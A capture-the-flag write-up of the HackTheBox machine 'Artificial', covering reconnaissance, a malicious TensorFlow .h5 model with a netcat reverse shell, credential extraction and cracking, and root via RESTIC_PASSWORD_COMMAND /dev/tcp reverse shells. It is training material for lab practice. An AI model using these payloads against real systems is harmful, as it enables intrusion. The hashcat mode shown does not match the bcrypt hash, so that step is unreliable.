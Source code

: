 # HackTheBox - Artificial (Write-up)

This is a detailed write-up of the **Artificial** machine on
HackTheBox.\
The objective was to exploit vulnerabilities in malicious TensorFlow
models to achieve remote code execution (RCE), escalate privileges, and
capture the `user.txt` and `root.txt` flags.

------------------------------------------------------------------------

## Reconnaissance

Running **nmap** to identify open ports:

``` bash
nmap -sCVT 10.10.11.74
```

Result:

    PORT   STATE SERVICE VERSION
    22/tcp open ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
    80/tcp open http    nginx 1.18.0 (Ubuntu)

-   HTTP service redirected to `http://artificial.htb/`.

------------------------------------------------------------------------

## Initial Access

It was possible to create a demo account to explore the application.\
The system allowed uploading `.h5` files (TensorFlow models).

Discovery: remote code execution (RCE) vulnerability in TensorFlow model
loading.

------------------------------------------------------------------------

## TensorFlow Exploitation

Python exploit to create a malicious `.h5` file:

``` python
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.xx.xx 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Building the container to generate the malicious model:

``` bash
docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 exploit.py
```

Upload `exploit.h5` in the Web UI → **View Predictions** → reverse shell
obtained.

------------------------------------------------------------------------

## Container Access

After the upload, spawn an interactive shell:

``` bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we have initial access inside the container.

------------------------------------------------------------------------

## Privilege Escalation

A `config.json` file was found inside `.config/backrest/`:

``` bash
cat .config/backrest/config.json
```

Credentials (bcrypt):

    "user": "backrest_root",
    "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"

Password bruteforce with hashcat:

``` bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Exploiting the environment variable `RESTIC_PASSWORD_COMMAND` for a
persistent reverse shell:

``` bash
echo "bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1" | base64
```

Usage in ENV:

``` bash
RESTIC_PASSWORD_COMMAND=echo "YmFzaCAtaSA+JiAvZGVzxL3RjcC8xMC4xMC4xNi4xMzUvNDQ0NCAwPiYxCg==" | base64 -d | bash
```

For long-term persistence:

``` bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

------------------------------------------------------------------------

## Flags

After root access:

``` bash
cat /home/user/user.txt
cat /root/root.txt
```

------------------------------------------------------------------------

## Conclusion

The **Artificial** machine demonstrated critical flaws in Machine
Learning pipelines:

1.  **Nmap** revealed SSH and HTTP.\
2.  **TensorFlow RCE** via malicious `.h5` upload.\
3.  **Reverse shell** through injected code in the model.\
4.  **Config.json** exposed sensitive credentials.\
5.  **Privilege escalation** via `RESTIC_PASSWORD_COMMAND`.\
6.  Successfully captured both flags.

```{=html}
<!-- -->
```
    Status: PWNED 🏴‍☠️
